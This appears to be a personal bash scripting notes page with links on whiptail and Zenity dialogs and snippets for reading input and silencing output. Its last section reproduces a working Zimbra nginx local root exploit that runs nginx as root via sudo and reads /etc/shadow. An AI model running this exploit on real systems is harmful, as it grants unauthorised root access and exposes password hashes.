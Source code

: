 # S c r i p t i n g

## GUI
- [whiptail](https://www.tutorialspoint.com/unix_commands/whiptail.htm) - Display dialog boxes from shell scripts.
- Zenity
  - [How to display GUI dialogs in bash script using Zenity](https://www.howtoforge.com/how-to-display-gui-dialogs-in-bash-script-using-zenity/)
  - [How to use graphical widgets in bash scripts with zenity](https://linuxconfig.org/how-to-use-graphical-widgets-in-bash-scripts-with-zenity)
  ### Examples
  - [EasyGPG](https://github.com/guelfoweb/easygpg) - Zenity GUI to manage GPG keys.

## Waiting for user input
````powershell
read -p "Write the path: " variableName
read -p "Press [ENTER] when finished..."
````

## Redirecting output
Code
````powershell
sudo apt update > /dev/null 2>&1 

````

## zimbra-nginx-local-root-exploit
- [Source](https://darrenmartyn.ie/2021/10/25/zimbra-nginx-local-root-exploit/)
````
#!/bin/bash
echo "[+] making config"
cat <<EOF >/tmp/nginx.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
server {
    listen 1337;
    root /;
    autoindex on;
}
}
EOF
echo "[+] Launching..."
sudo /opt/zimbra/common/sbin/nginx -c /tmp/nginx.conf
echo "[+] Reading /etc/shadow..."
curl http://localhost:1337/etc/shadow
````
